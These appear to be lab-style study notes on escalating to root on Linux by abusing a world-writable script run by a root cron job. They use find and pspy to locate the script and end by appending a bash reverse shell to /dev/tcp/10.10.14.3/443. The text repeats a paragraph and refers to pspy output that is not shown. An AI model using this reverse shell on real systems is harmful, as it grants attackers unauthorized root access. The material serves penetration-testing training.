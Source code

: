 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Table of Contents](#Table\of\Contents)
- [Cron Job Abuse](#cron\job\abuse)

## Table of Contents

  - [Table of Contents](#Table\of\Contents)
- [Cron Job Abuse](#cron\job\abuse)

## Table of Contents

- [Cron Job Abuse](#cron\job\abuse)

# Cron Job Abuse
Cron jobs are scripts/functions that are to be called on a particular schedule. the `crontab` command can create a cron file, which will be run by the `cron daemon` on the schedule specified. When created, the cron file will be created in `/var/spool/cron` for the specific user that creates it. Each entry in the crontab file requires six items in the following order:
- Minutes, Hours, Days, Months, Weeks, Commands.
- Ex:
`0 */12 * * * /home/admin/backup.sh` would run every 12 hours


The root crontab is almost always only editable by the root user or a user with full sudo privileges; howver this can still be abused. It's possible to find a world-writable script that runs as root and, even if you cannt read the crontab to know the exact schedule, you be may able to ascertain how often it runs (i.e., backup script that createes `.tar.gz` file every 12 hours. )

- Certain applications create cron files in the `/etc/cron.d` directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories.
```bash
find / -path -prune -o -type f -perm -o+w 2>/dev/null
```

A quick look in the `/dmz/backups` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration. Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote: `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `backup.sh` is world writeable and runs as root.
```bash
ls -la /dmz-backups/

total 36
drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
-rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
```

We can confirm that a cron job is running using [pspy](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning [procfs](https://en.wikipedia.org/wiki/Procfs).

We can confirm that a cron job is running using [pspy](https://github.com/DominicBreuker/pspy), a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning [procfs](https://en.wikipedia.org/wiki/Procfs).

Let's run `pspy` and have a look. The `-pf` flag tells the tool to print commands and file system events and `-i 1000` tells it to scan [profcs](https://man7.org/linux/man-pages/man5/procfs.5.html) every 1000ms (or every second).

```shell-session
gdxqpardo@htb[/htb]$ ./pspy64 -pf -i 1000
```


From the above output, we can see that a cron job runs the `backup.sh` script located in the `/dmz-backups` directory and creating a tarball file of the contents of the `/var/www/html` directory.


We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to `ALWAYS` take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.

```shell-session
gdxqpardo@htb[/htb]$ cat /dmz-backups/backup.sh 

#!/bin/bash
 SRCDIR="/var/www/html"
 DESTDIR="/dmz-backups/"
 FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
 tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
```

We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a [Bash one-liner reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Code: bash

```bash
#!/bin/bash
SRCDIR="/var/www/html"
DESTDIR="/dmz-backups/"
FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
 
bash -i >& /dev/tcp/10.10.14.3/443 0>&1
```





